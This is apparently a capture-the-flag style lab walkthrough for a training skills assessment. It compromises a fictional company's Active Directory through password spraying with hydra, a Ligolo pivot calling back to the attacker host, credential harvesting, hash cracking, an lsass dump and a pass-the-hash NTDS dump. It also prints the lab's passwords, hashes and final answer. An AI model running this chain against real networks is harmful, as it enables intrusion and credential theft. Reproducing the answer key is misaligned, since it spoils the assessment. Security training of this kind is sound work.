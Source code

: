 ## The Credential Theft Shuffle
[The Credential Theft Shuffle](https://adsecurity.org/?p=2362), as coined by `Sean Metcalf`, is a systematic approach attackers use to compromise Active Directory environments by exploiting `stolen credentials`. The process begins with gaining initial access, often through phishing, followed by obtaining local administrator privileges on a machine. Attackers then extract credentials from memory using tools like Mimikatz and leverage these credentials to `move laterally across the network`.

## Skills Assessment
`Betty Jayde` works at `Nexura LLC`. We know she uses the password `Texas123!@#` on multiple websites, and we believe she may reuse it at work. Infiltrate Nexura's network and gain command execution on the domain controller. The following hosts are in-scope for this assessment:

| Host     | IP Address                                                  |
| -------- | ----------------------------------------------------------- |
| `DMZ01`  | `10.129.*.*` **(External)**, `172.16.119.13` **(Internal)** |
| `JUMP01` | `172.16.119.7`                                              |
| `FILE01` | `172.16.119.10`                                             |
| `DC01`   | `172.16.119.11`                                             |

#### Pivoting Primer
The internal hosts (`JUMP01`, `FILE01`, `DC01`) reside on a private subnet that is not directly accessible from our attack host. The only externally reachable system is `DMZ01`, which has a second interface connected to the internal network. This segmentation reflects a classic DMZ setup, where public-facing services are isolated from internal infrastructure.

To access these internal systems, we must first gain a foothold on `DMZ01`. From there, we can `pivot` — that is, route our traffic through the compromised host into the private network. This enables our tools to communicate with internal hosts as if they were directly accessible. After compromising the DMZ, refer to the module `cheatsheet` for the necessary commands to set up the pivot and continue your assessment.


## Questions
What is the NTLM hash of NEXURA\Administrator?

## Solution
Full Name: Betty Jayde
Password: Texas123!@#

DMZ01: 10.129.234.116 (External) -> Linux Machine

1. Firstly let's scan the IP to list open port:
```shell
> nmap -sC -sV -Pn 10.129.234.116 -oA dmz01_scan

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 7108b0c4f3ca9757649770f9fec50c7b (RSA)
|   256 45c3b51463993d9eb32251e59776e150 (ECDSA)
|_  256 2ec2416646efb68195d5aa3523945538 (ED25519)
```

2. We can connect to the target machine with password given but we don't know the username yet. We can create a list of possible username with our custom tool and try every possibilities with hydra. We could also use username-anarchy tool.
```shell
> echo 'Betty Jayde' > users.txt
> ADUsersGen -l users.txt  > userlist.txt
> cat userlist.txt
bjayde
bettyjayde
jaydebetty
betty.jayde
jayde.betty
b.jayde
betty
jayde
jbetty

> hydra -L userlist.txt -p 'Texas123!@#' -f 10.129.234.116 ssh
[22][ssh] host: 10.129.234.116   login: jbetty   password: Texas123!@#

Username: jbetty
Password: Texas123!@#

> ssh jbetty@10.129.234.116
```

![[screenshot-2025-10-10_14-23-30.png]]

3. Set up Ligolo to make DMZ01 machine our pivot
```shell
DONT RUN LIGOLO ON EXEGOL

1. Import agent binary to compromised host DMZ01 with http server.
2. Create interface for ligolo :
> sudo ip tuntap add user vdarras mode tun ligolo

3. Enable the interface 
> sudo ip link set ligolo up

4. Run ligolo proxy on host machine
> ./proxy -selfcert 

5. Run Agent on target machine to establish connection:
Target > ./agent -connect 10.10.14.237:11601 -ignore-cert

6. We get connection back on host machine we can now use our session 1.
ligolo > session
ligolo > 1
ligolo > ifconfig (Agent interfaces)

7. Add rule to routing table, we have to add the target internal subnetwork to our routing table (Not on exegol)
> sudo ip route add 172.16.119.0/24 dev ligolo
```
![[Pasted image 20251010175900.png]]
```shell
We can confirm that it has beem added with this command on the screenshot above.

8. Start the tunnel on Ligolo session.
ligolo > start
```

4. Tunnel is done, we can now interact with the internal network. Let's scan the 3 inernal hosts
```shell
> cat hosts.txt
172.16.119.7
172.16.119.10
172.16.119.11

> nmap -sC -sV -Pn -iL hosts.txt -oA internal
```

5. Try to find credentials
```shell
ssh > cat .bash_history
sshpass -p "dealer-screwed-gym1" ssh hwilliam@file01

On HOST FILE01 (172.16.119.10) : hwilliam:dealer-screwed-gym1

Thanks to the nmap scan we can see WinRM service is running:

> evil-winrm -u "hwilliam" -p 'dealer-screwed-gym1' -i "172.16.119.7"
*Evil-WinRM* PS C:\Users\hwilliam\Documents>
```

6. Find a .lnk file in hwilliam Desktop
```shell
*Evil-WinRM* PS C:\Users\hwilliam\Desktop> [Convert]::ToBase64String((Get-Content -path "C:/Users/hwilliam/Desktop/Password Safe 3.lnk" -Encoding byte))
TAAAAAEUAgAAAAAAwAAAAAAAAEabAAgAIAAAAACBBWfPl9sBnuzAMBm52wEAgQVnz5fbAWDTZwAAAAAAAQAAAAAAAAAAAAAAAAAAAAoCFAAfUOBP0CDqOmkQotgIACswMJ2kAC9DOlwAAAAAAAAAAAAAAAAAAAAAAAAAiwAAACcA7759AAAAMVNQU7edrv+NHP9DgYyEQDqjcy1hAAAAZAAAAAAfAA<...SNIP...>

On the linux machine paste the base64, decode it and redirect it to a file.

> echo 'TAAAAAEUAgAAAAAAwAAAAAAAAEabAAgAIAAAAACBBWfPl9sBnuzAMBm52wEAgQVnz5fbAWDTZwAAAAAAAQAAAAAAAAAAAAAAAAAAAAoCFAAfUOBP0CDqOmkQotgIACswMJ2kAC9DOlwAAAAAAAAAAAAAAAAAAAAAAAAAiwAAACcA7759AAAAMVNQU7edrv+NHP9DgYyEQDqjcy1hAAAAZAAAAAAfAAAAKAAAAE0AaQBjAHIAbwBzAG8AZgB0AC4AVwBpAG4AZABvAHcAcwAuAEMAbwByAHQAYQBuAGEAXwBjAHcANQBuADEAaAAyAHQAeAB5AGUAdwB5AAAAAAAAAAAAAAAZAIwAMQAAAAAAnVqdeREAUFJPR1JBfjEAAHQACQAEAO++L01hOp1anXkuAAAAQgAAAAAAAQAAAAAAAAAAAEoAAAAAAOP8AwB<SNIP>' | base64 -d > password.lnk

Lets see what we can find with small static analysis
> strings password.lnk
...
PROGRA~1
/Ma:
PASSWO~1
pwsafe.exe
C:\Program Files\Password Safe\pwsafe.exe
jump01
...

We can see that pwsafe is running to manage password locally in a .psafe3 database. 
```

7. We can connect in rdp and open Password Safe program. We need a .psafe3 database AND we also need a password to enter it.
```shell
We see that we have access to a share called HR and we find this file:
\\file01\HR\Archive\Employee-Passwords_OLD.psafe3
Get the file on host with rdp shared volume

On exegol:
> pwsafe2john.py Employee-Passwords_OLD.psafe3 > hash
> john hash --wordlist=rockyou.txt
michaeljackson   (Employee-Passwords_OLD)

Enter into the database via RDP and we can collect those passwords:

bdavid:caramel-cigars-reply1
stom:fails-nibble-disturb4 
```

8. We can dump lsass process with xfreerdp
```shell
1. Go to task manager
2. Find Local Security Authority Process and dump it
3. Move dump into host machine
4. Use pypykatz
> pypykatz lsa minidump lsass.DMP > dump
> We found the stom hash
(Stom password was not working anywhere)

stom:21ea958524cfd9a7791737f8d2f764fa

Lets perform a Pass The Hash Attack
```

9. Lets perform a Pass The Hash Attack to dump NTDS.dit
```shell
> nxc smb 172.16.119.11 -u stom -H '21ea958524cfd9a7791737f8d2f764fa' -M ntdsutil

Administrator:500:aad3b435b51404eeaad3b435b51404ee:36e09e1e6ade94d63fbcab5e5b8d6d23:::

Answer: 36e09e1e6ade94d63fbcab5e5b8d6d23
```